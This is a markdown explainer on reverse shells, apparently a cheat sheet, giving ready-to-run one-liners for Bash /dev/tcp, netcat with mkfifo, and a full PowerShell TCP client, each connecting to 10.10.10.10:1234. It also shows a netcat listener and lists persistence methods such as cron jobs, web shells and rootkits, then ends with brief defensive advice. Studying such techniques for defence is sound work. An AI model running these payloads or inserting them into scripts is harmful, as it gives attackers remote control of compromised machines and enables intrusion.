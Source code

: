# Reverse Shell: In-Depth Exploration and Best Practices

## Overview
A Reverse Shell occurs when a compromised system connects back to an attacker's machine, granting shell access to control the compromised machine remotely. Unlike a direct shell access, a reverse shell is initiated by the target system, making it a crucial technique for bypassing firewalls and NAT devices that may block incoming connections.

## Reliable Reverse Shell Commands
The choice of command depends on the target's operating system and available applications. Below are reliable commands for Linux and Windows targets:

### Linux
- **Using Bash**:
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
  ```
- **Using Netcat**:
  ```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
  ```

### Windows
- **Using PowerShell**:
  ```powershell
  powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
  ```

## Execution and Listening
These commands can be executed on the compromised host through various means, such as Python exploits or Metasploit modules. On the attacker's side, a listener is set up using tools like netcat:

```bash
nc -lvnp 1234
```

Once the reverse shell is initiated, the attacker can execute commands on the compromised system and receive outputs directly on their machine.

## Types of Shells
- **Non-Interactive Shells**: Provides a command execution environment without interactive features like tab completion or command history.
- **Interactive Shells**: Offers a full-featured command-line interface, including interactivity, which is often achieved by upgrading a non-interactive shell.

## Fragility and Persistence
While reverse shells are invaluable for initial access, they are known for their fragility. Connection loss requires re-initiation of the reverse shell command. To mitigate this, attackers often work to stabilize and persist their access through methods like:

- **Creating Cron Jobs or Scheduled Tasks**: Automating the reverse shell command to execute periodically.
- **Installing Web Shells**: Provides a more stable, web-based interface for command execution.
- **Utilizing Malware or Rootkits**: Offers persistent, stealthy access.

## Best Practices for Security Professionals
- **Network Monitoring**: Regularly monitor outbound connections for anomalies that may indicate a reverse shell.
- **Firewall Configuration**: Restrict outbound connections, especially to uncommon ports that may be used for reverse shells.
- **Endpoint Protection**: Use antivirus and endpoint detection and response (EDR) solutions to identify and mitigate reverse shell payloads.
- **Regular Patching**: Keep systems up to date to minimize vulnerabilities that could be exploited for reverse shell access.

## Conclusion
Reverse shells are a powerful tool in the arsenal of attackers, providing remote access to compromised systems. Understanding their operation, detection, and mitigation is crucial for security professionals to protect against unauthorized access. Implementing robust security measures and maintaining vigilance in monitoring can help mitigate the risks associated with reverse shells.